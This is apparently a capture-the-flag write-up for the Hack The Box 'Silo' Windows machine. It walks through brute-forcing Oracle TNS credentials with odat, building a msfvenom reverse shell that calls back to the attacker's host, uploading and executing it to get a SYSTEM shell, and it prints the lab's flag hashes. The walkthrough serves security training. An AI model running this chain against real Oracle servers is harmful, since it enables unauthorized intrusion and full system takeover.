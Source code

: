 # Silo
>Author : Xyan1d3
>Date : 29th June 2021
>IP : 10.10.10.82
>OS : Windows
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Tue Jun 29 12:56:28 2021 as: nmap -sC -sV -v -oN nmap/silo 10.10.10.82
Nmap scan report for 10.10.10.82
Host is up (0.14s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-29T07:28:57
|_  start_date: 2021-06-29T07:24:34
```

We could use `crackmapexec` with no credentials to identify the OS running here.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/silo]
└──╼ # crackmapexec smb 10.10.10.82
SMB         10.10.10.82     445    SILO             [*] Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)
```

We see that we are up against a `Windows Server 2012 R2 Standard 9600 x64`.

## SMB Enumeration
We try to do a null session attack to list all th available shares but, it does not allow us to do so.

## RPC Enumeration
RPC Null Session attack also didn't work.

## Oracle TNS Listener Enumeration
We start poking at the `1521/tcp` which nmap states as unauthorized.

After, Little bit of searching we find out a tool called `odat` which could help us to enumerate the port.
Source : https://github.com/quentinhardy/odat/releases

We could run a `sid` bruteforce to identify any valid users of the box.
Command Run : `./odat-libc2.12-x86_64 sidguesser -s 10.10.10.82`
![[Pasted image 20210629133529.png]]

We find out a valid SID `XE` we could now use `odat` to bruteforce the password of the user.

Now, We have to bruteforce credentials for the SID of the database. For, This we would need a username and password list which we will be using from metasploit. The default file location on kali is `/usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt`. 
The wordlist needs to be modified from space separated credentials pair to `/` seperated credential pair.
We use `odat` passwordguesser feature to get the valid password.
![[Pasted image 20210629143119.png]]

Oracle Database : 
|SID|Username|Password|
|--|--|--|
|XE|scott|tiger|

```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/silo]
└──╼ # ./odat-libc2.12-x86_64/odat-libc2.12-x86_64 --help                         

*** SNIP ***

    externaltable     to read files or to execute system commands/scripts

    utlfile           to download/upload/delete files
*** SNIP ***
```

We could use `utlfile` feature to upload a reverse shell .exe file generated with `msfvenom` and then use `externaltable` to execute the file and get a shell on the box.

We generate a reverse shell executable using `msfvenom`.
```
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/silo]
└──╼ # msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=8888 -f exe -o magisk.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: magisk.exe
```

We upload the reverse shell `magisk.exe` on the `/temp` directory.
```
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/silo]
└──╼ # ./odat-libc2.12-x86_64/odat-libc2.12-x86_64 utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile /temp magisk.exe magisk.exe

[1] (10.10.10.82:1521): Put the magisk.exe local file in the /temp folder like magisk.exe on the 10.10.10.82 server
[+] The magisk.exe file was created on the /temp directory on the 10.10.10.82 server like the magisk.exe file
```

Now, Time to execute the file using `odat`.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/silo]
└──╼ # ./odat-libc2.12-x86_64/odat-libc2.12-x86_64 externaltable --sysdba -s 10.10.10.82 -U scott -P tiger -d XE --exec /temp magisk.exe

[1] (10.10.10.82:1521): Execute the magisk.exe command stored in the /temp path

──────────────────────────────────────────────────────────────────────────────────

┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/silo]
└──╼ # nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.10.82 49163
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\oraclexe\app\oracle\product\11.2.0\server\DATABASE>whoami
whoami
nt authority\system
```
![[Pasted image 20210629213227.png]]

## Getting the User.txt
We could get the `user.txt` by visiting the `C:\Users\Phineas\Desktop\`.
```python
C:\Users\Phineas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 78D4-EA4D

 Directory of C:\Users\Phineas\Desktop

01/07/2018  03:03 PM    <DIR>          .
01/07/2018  03:03 PM    <DIR>          ..
01/05/2018  11:56 PM               300 Oracle issue.txt
01/04/2018  10:41 PM                32 user.txt
               2 File(s)            332 bytes
               2 Dir(s)  15,522,082,816 bytes free

C:\Users\Phineas\Desktop>type user.txt
type user.txt
92ede778a1cc8d27cb6623055c331617
```

## Getting the Root.txt
We could get the `root.txt` by visiting `C:\Users\Administrator\Desktop`.
```python
C:\Users\Phineas\Desktop>cd ../../Administrator/Desktop
cd ../../Administrator/Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 78D4-EA4D

 Directory of C:\Users\Administrator\Desktop

01/07/2018  02:34 PM    <DIR>          .
01/07/2018  02:34 PM    <DIR>          ..
01/04/2018  12:38 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  15,522,078,720 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
cd39ea0af657a495e33bc59c7836faf6

```